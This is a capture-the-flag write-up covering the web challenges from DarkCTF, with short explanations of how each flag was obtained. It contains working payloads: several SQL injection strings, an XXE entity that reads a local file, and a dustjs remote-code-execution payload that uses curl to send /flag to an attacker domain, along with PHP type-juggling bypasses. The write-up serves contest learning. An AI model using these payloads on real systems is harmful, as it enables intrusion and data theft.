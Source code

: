 ## Writeups For all Web Challenges from DarkCTF

# Source
`496 solves / 101 points`
`Author: Mr.Ghost`

In the challenge we are given the source code for the challenge and there are a few checks we have to bypass to get the flag
ie 
```
$web = $_SERVER['HTTP_USER_AGENT'];
if (is_numeric($web)){
      if (strlen($web) < 4){
          if ($web > 10000){ echo $flag}}}
```
so for this the input has to be a number >10000 but length less than 4. We can use the exponent syntax for this
ie 9e9 which basically gives 9*(10^9)==`9000000000`

# Apache Logs
Read the log file get the url encoded text decode it convert the numbers to ascii representation

# Simple_SQL
I guess it was suppose to be sql injection but direclty going to ?id=9 gives you the flag (idor)

# So_Simple
There was a parameter ?id= which we could use to do sql injection and get the flag from the database
`http://web.darkarmy.xyz:30001/?id=0%27%20union%20select%201,group_concat(password)3%20from%20users%20--%20-`

# PHP İnformation
This was basic php code revied and solve challenge
Part 1.
        `http://php.darkarmy.xyz:7001/?darkctf=2020`
Part 2.
        Change User-Agent to `2020_the_best_year_corona`
Part 3
        `?ctf2020=WkdGeWEyTjBaaTB5TURJd0xYZGxZZz09`
Part 4
        md5 collision with type juggling 
        `?karma=240610708&2020=QNKCDZO`

# Agent-U
Get the database 
    
if we use admin:admin as credentials the user-agent seems to get inserted into the database so we can exploit the insert clause
`' or updatexml(1, concat(0x7e, (database())), 1), '','') -- -`

# Dusty Notes
This was related to the `dustjs` module exploit similar to the one on paytm which causes codeexecution due to unsafe eval
we could use the payload
`message[]=x&message[]=y'-require('child_process').exec('curl+-F+"x=\`cat+/flag\`"+<yourdomain.com>'-' `

# Chain Race
This was a lfi-ssrf-racecondition based bug 
1. read /etc/password from there you will find a reference to another service running on the machineat localhost:8080
sending a request to http://localhost:8080 we get its sourc code 
        session_start();
        include 'flag.php';

        $login_1 = 0;
        $login_2 = 0;

        if(!(isset($_GET['user']) && isset($_GET['secret']))){
            highlight_file("index.php");
            die();
        }

        $login_1 = strcmp($_GET['user'], "admin") ? 1 : 0;

        $temp_name = sha1(date("ms").@$_COOKIE['PHPSESSID']);
        session_destroy();
        if (($_GET['secret'] == "0x1337") || $_GET['user'] == "admin") {
            die("nope");
        }

        if (strcasecmp($_GET['secret'], "0x1337") == 0){
            $login_2 = 1;
        }

        file_put_contents($temp_name, "your_fake_flag");

        if ($login_1 && $login_2) {
            if (@unlink($temp_name)) {
                die("Nope");
            }
        echo $flag;
        }
        die("Nope");
We can easily bybass the starting parts using `user=Admin&secret[]=0x1337`
Everything seems fine till this part ` if (@unlink($temp_name)) ` here it basically unlinks the file it created and @unlink($temp_name) has a return value of true/1 if successful
so basically we need to make it so that unlink fails . here we can use race condition to send 2 requests simultaneously which will cause 1 file to be deleted and the other to cause an error (as no file world be present)
i wrote a simple multithreading script to send requests simultaneously to the server with the payload
`http://127.0.0.1:8080/?user=Admin&secret[]=0x1337`
and was able to get the flag

# File Reader 

This was an interesting challenge accordind to me  in the description it said something to do with xml
so we started giving xml payloads but the application only accepted pdf and docx files
the application takes the file and displays the
```
File Name :
Size:
Mimetype :
Number of pages:
```
After learning a bit more i found that .docx can be broken down further (rename the .docx to .zip). After checking we see that app.xml is responsible for showing Number of pages
so we overwrote the app.xml with our payload 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM 'file:///flag.txt'> ]>
<Properties xmlns="http://schemas.openxmlformats.org/officeDocument/2006/extended-properties" xmlns:vt="http://schemas.openxmlformats.org/officeDocument/2006/docPropsVTypes"><Pages>&xxe;</Pages></Properties>```
and repackaged the zip file as .docx  and sent it to the server


# Safe_House

Another Sql challenge i started of as blind based and one of my teammates figured that error based would be much easier
`http://safehouse.darkarmy.xyz/?xer=' union select%201,2, (select updatexml(null,concat(0x0a,(%20select%20group_concat(referer)%20from referers )),0x0a))-- -`
the flag was in referers table 

### Note
All challenges were solved along with team members no challenge was a solo effor
team members 
@Az3z3l
@yadhuz
@sayooj
@c3rb3rus

